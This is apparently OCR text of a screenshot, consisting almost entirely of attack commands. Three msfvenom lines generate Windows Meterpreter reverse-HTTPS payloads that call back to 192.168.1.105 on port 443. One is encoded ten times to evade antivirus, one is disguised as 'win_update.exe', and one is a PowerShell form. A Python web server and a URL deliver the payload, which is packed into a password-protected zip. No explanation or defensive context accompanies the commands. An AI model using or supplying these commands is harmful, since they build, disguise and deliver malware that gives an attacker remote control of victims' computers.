 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.105 LPORT=443 -f psh-cmd -o payload.ps1


python3 -m http.server 8080

http://192.168.1.105:8080/payload_protegido.zip



zip --password SuaSenhaForte payload_protegido.zip payload_encoded.exe


